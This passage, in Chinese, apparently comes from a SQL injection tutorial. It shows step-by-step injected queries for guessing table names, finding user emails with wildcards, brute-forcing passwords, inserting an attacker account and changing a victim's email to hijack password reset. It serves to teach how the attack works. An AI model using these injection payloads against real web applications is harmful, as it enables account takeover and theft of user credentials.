     *   猜测表名称

        *   与之相似，如果消息是`email unknown`或者`password was sent`，我们就知道我们的猜测是否正确。

            ```c
            SELECT email, passwd, login_id, full_name   
            FROM table  
            WHERE email = 'x' AND 1=(SELECT COUNT(*) FROM tabname); --'; 
            ```

        *   但是，上面只确认了`tabname`是否是有效名称，不一定是我们使用的名称，下面的语句有所帮助：

            ```c
            SELECT email, passwd, login_id, full_name   
            FROM members  
            WHERE email = 'x' AND members.email IS NULL; --'; 
            ```

    *   猜测用户的邮件地址：`$EMAIL = x' OR full_name LIKE '%Bob%`

        *   如果 SQL 语句执行成功，通常你会看到这样的消息：`We sent your password to <…>`，其中`<…>`是邮件地址，它的`fill_name`与`%Bob%`匹配（`%`是通配符）。

            ```c
            SELECT email, passwd, login_id, full_name   
            FROM members  
            WHERE email = 'x' OR full_name LIKE '%Bob%'; 
            ```

    *   爆破密码（在我们了解有效邮件地址之后）

        ```c
        SELECT email, passwd, login_id, full_name   
        FROM members  
        WHERE email = 'bob@example.com' AND passwd = 'hello123'; 
        ```

    *   如果数据库不是只读的，我们可以尝试下面的东西来添加新用户：

        *   末尾的`--`（注意空格，或者使用`#`）是 SQL 注释的开始。这是个有效的方式来去掉最后由应用提供的单引号，并且不会担心它们的匹配。
        *   有一些挑战：
            *   Web 表单可能没有像你提供足够的空间来键入整个字符串。
            *   Web 应用的用户可能没有`members`表的`INSERT`权限。
            *   应用可能不能正常表现，因为我们没有提供其它字段的值。
            *   有效的`member`可能不仅仅需要`members`表的一行记录，也需要其它表的关联信息（例如`accessrights`），所以只向一个表添加可能不足够。

        ```c
        SELECT email, passwd, login_id, full_name   
        FROM members  WHERE email = 'x';   
        INSERT INTO members ('email','passwd','login_id','full_name')    
        VALUES ('xyz@hacker.net','hello','xyz','xyz Hacker');--'; 
        ```

    *   修改现有用户的邮件地址

        *   如果成功了，攻击者就能访问正常的`I lost my password`链接，键入更新后的邮件地址，并在邮件中收到 Bob 的密码。

        ```c
        SELECT email, passwd, login_id, full_name   
        FROM members  WHERE email = 'x';       
        UPDATE members       
        SET email = 'xyz@hacker.net'       
        WHERE email = 'bob@example.com'; 
        ```

